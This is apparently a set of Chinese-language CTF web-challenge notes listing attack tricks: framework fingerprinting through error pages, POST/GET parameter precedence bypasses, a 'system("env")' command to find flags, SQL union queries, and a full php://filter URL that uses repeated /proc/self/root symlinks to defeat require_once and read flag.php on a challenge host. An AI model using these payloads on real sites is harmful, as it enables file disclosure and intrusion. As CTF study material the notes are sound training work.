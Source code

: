 # Web知识

1. session的存放目录为`/runtime/session/xxx`
1. 可以通过故意访问不存在的目录来通过报错获取网站的框架
1. 存放flag的文件一般就是flag
1. POST传参优先级高于GET，如果参数名称相同，POST的值会覆盖FET的值，可以用于部分绕过
1. eval()函数在PHP和js里都有，可以用`Error().stack`测试判断到底是什么语言
1. 可以通过vm.js、VM.run等语句判断vm2沙箱
1. 不知道flag在哪时可以`system("env");`看看环境变量
1. 网站观察源码没收获的时候可以目录扫描和抓包获取信息，通过文件泄露和隐藏传参获取信息
1. SQL联合查询时可以查询和group_concat多个值用逗号隔开
1. PHP最新版 的小 Trick， require_once 包含的软链接层数较多事 once 的 hash 匹配会直接失效造成重复包含：

* `/proc/self/`是指向当前进程的`/proc/pid/`，而`/proc/self/root`是指向`/`的软连接，所以让软连接层数变多即可造成重复包含

```
http://a4b822a9-e181-4395-b9be-014a4acc375e.node4.buuoj.cn:81/?file=php://filter/convert.base64-encode/resource=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/var/www/html/flag.php
```

